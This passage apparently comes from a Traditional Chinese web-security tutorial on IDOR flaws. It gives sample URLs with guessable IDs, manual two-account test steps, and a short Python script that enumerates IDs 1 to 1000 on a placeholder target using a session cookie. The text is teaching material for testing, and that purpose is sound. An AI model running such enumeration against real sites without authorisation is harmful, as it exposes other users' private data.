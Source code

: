 **常見場景**：

```
# 使用者檔案存取
http://example.com/user/profile?id=123
http://example.com/document/view?doc_id=456

# API端點
http://example.com/api/user/789/details
http://example.com/api/order/12345

# 直接檔案存取
http://example.com/uploads/invoice_001.pdf
http://example.com/images/user_123.jpg
```

**5.3.2 IDOR檢測方法**：

**手動測試步驟**：

```
1. 註冊多個測試帳戶
2. 使用第一個帳戶存取資源，記錄ID
3. 使用第二個帳戶，嘗試存取第一個帳戶的資源
4. 觀察是否能成功存取
```

**自動化檢測腳本**：

```python
import requests
import sys

def test_idor(base_url, start_id, end_id, session_cookie):
    """
    IDOR自動化測試腳本
    """
    vulnerable_ids = []
    
    for user_id in range(start_id, end_id + 1):
        url = f"{base_url}?id={user_id}"
        headers = {
            'Cookie': session_cookie,
            'User-Agent': 'Mozilla/5.0 (compatible; IDORTester/1.0)'
        }
        
        try:
            response = requests.get(url, headers=headers, timeout=10)
            
            # 檢查是否成功存取
            if response.status_code == 200:
                # 檢查是否包含其他使用者資料
                if 'email' in response.text and 'user' in response.text:
                    vulnerable_ids.append(user_id)
                    print(f"[+] 可能的IDOR漏洞：ID {user_id}")
                    
        except requests.RequestException as e:
            print(f"[-] 請求失敗 ID {user_id}: {e}")
    
    return vulnerable_ids

# 使用範例
if __name__ == "__main__":
    base_url = "http://target.com/profile"
    start_id = 1
    end_id = 1000
    session_cookie = "sessionid=abc123xyz"
```
